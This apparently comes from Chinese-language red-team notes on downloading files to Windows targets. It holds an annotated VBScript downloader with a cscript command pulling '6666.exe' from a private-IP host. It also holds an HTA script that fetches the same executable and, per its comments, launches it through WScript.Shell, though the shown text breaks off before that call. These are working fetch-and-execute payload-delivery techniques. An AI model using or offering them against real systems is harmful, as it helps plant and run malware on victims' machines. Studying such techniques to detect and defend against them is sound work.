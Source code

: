 - wget.vbs

  ```vbscript
  ' 开启错误处理，当发生错误时跳过并继续执行下一条语句
  on error resume next
  ' 使用"Wscript.Arguments()"获取命令行参数，分别赋值给iLocal、iRemote、iUser和iPass变量。
  ' iLocal表示本地保存文件的路径，
  ' iRemote表示远程文件的URL地址，
  ' iUser和iPass表示访问远程服务器需要的用户名和密码（如果不需要认证，则为空字符串）
  iLocal=LCase(Wscript.Arguments(1))
  iRemote=LCase(Wscript.Arguments(0))
  iUser=LCase(Wscript.Arguments(2))
  iPass=LCase(Wscript.Arguments(3))
  ' 使用CreateObject()创建一个名为xPost的XMLHttpRequest对象，用于向远程服务器发送HTTP请求
  set xPost=CreateObject("Microsoft.XMLHTTP")
  ' 判断是否需要认证，调用Open()方法打开一个GET请求，最后调用Send()方法发送请求并获取响应内容
  if iUser="" and iPass="" then
  xPost.Open "GET",iRemote,0
  else
  xPost.Open "GET",iRemote,0,iUser,iPass
  end if
  xPost.Send()
  ' 使用CreateObject()创建一个名为sGet的ADODB.Stream对象，用于将响应内容保存到本地文件
  ' 设置sGet的Mode为3（adModeReadWrite），Type为1（adTypeBinary），表示以二进制方式读写流数据
  ' 然后调用Open()方法打开流，调用Write()方法写入响应内容，最后调用SaveToFile()方法将流数据保存到本地文件iLocal中
  set sGet=CreateObject("ADODB.Stream")
  sGet.Mode=3
  sGet.Type=1
  sGet.Open()
  sGet.Write xPost.ResponseBody
  sGet.SaveToFile iLocal,2
  ```

  ```cmd
  cscript wget.vbs http://192.168.81.229/6666.exe c:\6666.exe
  ```

### HTA

- 保存为`.hta`文件后运行

```html
<html>
<head>
<script>
// 使用new ActiveXObject()方法创建一个名为Object的MSXML2.XMLHTTP对象，用于向远程服务器发送HTTP请求
// 然后调用Object.open()方法打开一个GET请求，指定要下载的文件的URL地址
// 最后一个参数为false表示同步请求，即等待服务器响应后再执行下一条语句
// 使用Object.send()方法发送请求并获取响应内容
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.81.229/6666.exe",false);
Object.send();

// 检查Object.Status的值是否等于200，表示HTTP响应的状态码是否为成功。
// 响应成功，就使用new ActiveXObject()方法创建一个名为Stream的ADODB.Stream对象，用于将响应内容保存到本地文件
// 然后调用Stream.Open()方法打开流，调用Stream.Type = 1方法设置流数据类型为二进制
// 调用Stream.Write()方法写入响应内容，最后调用Stream.SaveToFile()方法将流数据保存到本地文件"C:\6666.exe"中
// 使用new ActiveXObject()方法创建一个名为Shell的Wscript.Shell对象，用于运行本地可执行文件
// 调用Shell.Run()方法运行C:\6666.exe文件
// 调用Stream.Close()方法关闭流，调用window.close()方法关闭窗口
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
```